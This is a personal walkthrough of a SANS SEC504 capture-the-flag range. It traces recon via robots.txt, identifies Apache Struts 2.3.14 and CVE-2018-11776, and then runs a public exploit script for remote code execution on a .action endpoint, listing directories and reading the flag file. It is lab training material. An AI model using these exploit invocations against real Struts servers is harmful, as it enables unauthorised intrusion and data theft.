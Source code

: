# SEC504 Ranges.io CTF - Walkthrough

This document contains my personal step-by-step solutions for the **orders.issplaylist.com** section challenges.  
I’ve written it as if I am walking someone through how I solved each challenge, including the reasoning, challenges I faced, and how I worked through them.  

---

## Search Engine Restriction
**Question:**  
Retrieve the search engine restriction resource on the web server orders.issplaylist.com. Enter the flag.

**Steps Taken:**
At first this question seemed a little tricky, but the hint was in the wording: “search engine restriction.” I immediately thought about how websites tell search engines what to index or not index, which is done using the `robots.txt` file. With that in mind, I decided to directly check for the file by typing in the URL:  

```
https://orders.issplaylist.com/robots.txt
```

Sure enough, the file was there, and it revealed the flag.  

**Flag:**  
`NetWars{ValuableReconData}`

---

## Apache Struts Version
**Question:**  
Using the information on the orders.issplaylist.com website, identify the version of Apache Struts in use.

**Steps Taken:**
Once again, I went back to the `robots.txt` file because these files often contain directory disallows or hints about what the site is running. As I scrolled through the contents, I found a very telling line:  

```
Disallow: struts2-showcase-2.3.14
```

This immediately told me the Apache Struts version in use was **2.3.14**.  

**Answer:**  
`2.3.14`

---

## Vulnerability Research
**Question:**  
Research the version of Apache Struts using in-game assets. Which CVE entry describes a known vulnerability for this version of Apache Struts?

**Steps Taken:**
To answer this, I used **ClippedBin**, the OSINT resource provided in the CTF. I typed “struts” into the search bar and scanned the results. Among them was an exploit post, and at the top of that post in the comment area, I found the CVE reference. This CVE tied directly to the Apache Struts version I had identified earlier.  

**Answer:**  
`CVE-2018-11776`

---

## Exploit Identification
**Question:**  
Using in-game assets, identify an exploit left behind by the attackers. Enter the name of the exploit code author (first and last).

**Steps Taken:**
Still working within **ClippedBin**, I opened the exploit code that corresponded to CVE-2018-11776. Right at the top of the script, the author had left their name in the comments. That’s how I was able to clearly identify the person behind it.  

**Answer:**  
`Mazin Ahmed`

---

## Vulnerability Exploitation
**Question:**  
Use the exploit to gain access to the orders.issplaylist.com server. Retrieve the flag in the `/opt/tomcat/webapps/ROOT` directory.

**Steps Taken:**
This step took a lot more trial and error. I started by copying the exploit code I had found and saved it as `struts-exploit.py`. To make sure it was executable, I ran:  

```bash
chmod 755 struts-exploit.py
```

I first checked the script’s usage instructions with:  

```bash
./struts-exploit.py -h
```

I tried running it directly against the base site URL, but it came back saying the target was not vulnerable. For a moment I thought maybe I had gone down the wrong path, but then I realized I was probably missing a critical detail.  

After carefully re-reading the exploit script, I noticed that it specifically mentioned needing a **`.action` endpoint**. Sure enough, in the commented area of the exploit there was an example URL:  

```
http://orders.issplaylist.com/showcase/help.action
```

That was the missing piece. I re-ran the exploit, but this time against the `.action` endpoint:  

```bash
./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c id --exploit
```

This time, it worked! The output confirmed that the server was vulnerable, and it gave me the command execution response showing I was running as the `tomcat` user:  

```
uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
```

Now that I had remote code execution, I wanted to locate the flag in `/opt/tomcat/webapps/ROOT`. At first, I instinctively tried to use `cd` to change into the directory, but I quickly remembered that since this wasn’t an interactive shell, that wouldn’t work. Instead, I needed to reference the path directly in my command.  

So I ran:  

```bash
./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c 'ls -l /opt/tomcat/webapps/ROOT/' --exploit
```

The output listed several files, and among them was the one I was after: `Flag.txt`. The permissions showed that it was readable, so all I had to do was use `cat` to dump its contents.  

```bash
./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c 'cat /opt/tomcat/webapps/ROOT/Flag.txt' --exploit
```

The exploit ran successfully, and the flag was printed out:  

```
NetWars{SuccessfulExploit}
```

That moment was a big win — it felt like everything clicked after the earlier false start.  

**Flag:**  
`NetWars{SuccessfulExploit}`

---

## Web Password File
**Question:**  
Using the same exploit access, examine the file used for storing encrypted passwords in the web root (`/opt/tomcat/webapps/ROOT/`). Submit the flag.

**Steps Taken:**  
At this point I knew the process: use the exploit to remotely execute commands and carefully enumerate files in the target directory. I ran another listing of `/opt/tomcat/webapps/ROOT/` to identify which file contained the password data, with the goal of reading it in the same way I retrieved the flag file. This step was about persistence and methodically checking each file for clues, just like I had done before.  

---

